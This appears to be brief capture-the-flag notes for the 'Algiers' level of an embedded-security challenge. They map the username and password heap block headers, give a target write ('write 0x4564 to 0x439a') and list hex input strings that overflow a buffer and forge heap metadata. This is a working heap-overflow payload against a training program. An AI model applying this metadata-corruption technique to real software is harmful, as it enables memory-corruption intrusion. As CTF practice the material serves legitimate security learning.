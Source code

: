 # algiers #

username @ 0x240e
username->prev = 0x2408
username->next = 0x240a
username->size = 0x240c

password @ 0x2424
password->prev = 0x241e
password->next = 0x2420
password->size = 0x2422

```
block header (6 bytes) {
      prev ptr ; 2 bytes
      next ptr ; 2 bytes
      {15 bits of size, 1 bit of free/used} ; 2 bytes
}
```

write 0x4564 to 0x439a
username
 0 1 2 3 4 5 6 7 8 9 a b c d e f10111213
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa98436445ffff
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa964300010445
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa60450e4e

1e241e240233aaaaaaaaaaaaaaaaaaaa1e2462450110


1236
4136
password
bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb644530120101
